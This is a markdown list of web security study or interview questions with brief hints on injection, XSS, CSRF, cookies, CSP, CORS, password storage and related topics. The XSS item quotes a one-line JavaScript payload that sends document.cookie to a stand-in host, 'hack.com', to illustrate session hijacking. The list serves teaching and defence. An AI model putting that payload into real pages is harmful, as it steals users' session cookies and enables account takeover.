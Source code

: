 # Security Questions

- What is an Injection attack? How do you guard against injection attacks? (sanitize input, don't allow full sql statements, create function that accepts just the parameters - you can use an ORM, which will handle this for you.)
- What are vulnerabilities? How do guard against vulnerabilities being exploited? (mention synk)
- How is the value of logging?
- What is HTTPS?
- What is XSS? (used for session hijacking by attaching cookies to query param - window.location = 'hack.com?cookie=' + document.cookie)
- What is CSRF? 
- How do secure + httpOnly cookie settings help with CSRF?
- What are Content Security Policies? How can they help with CSRF?
- What are environment variables? How do they aid in security?
- What security concerns do you have to be aware of when committing to a remote repository?
- What does the helmet package do?
- What is the principle of least privilege?
- What is CORS? What is the cors library?
- How should you store passwords in databases?
- What can you do if someone bombards your server with requests?